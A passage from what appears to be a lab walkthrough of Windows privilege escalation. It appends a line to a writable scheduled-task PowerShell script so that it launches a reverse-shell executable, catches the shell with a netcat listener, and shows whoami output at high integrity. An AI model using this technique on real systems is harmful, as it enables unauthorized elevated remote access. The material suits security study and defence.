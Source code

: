 > Note: In the real-world this would be an implant or an encrypted payload for C2 Frameworks, Cobalt Strike Beacons and so on.

Start a listener on Kali and then append a line to the script which runs the `reverse.exe` executable we created:

```powershell
echo "C:\Tools\reverse.exe" >> C:\Schedule\helloworld.ps1
```

Wait for the scheduled tasks to be executed and that should trigger the reverse shell as a **high-integrity level** process:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.119.130] from (UNKNOWN) [192.168.119.129] 49961
Microsoft Windows [Version 10.0.22000.493]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name            SID
==================== =============================================
desktop-bn\user S-1-5-21-264094270-2388996790-3434637240-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                         
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group 
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group 
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group 
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group 
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group 
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group 
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288                                                    


```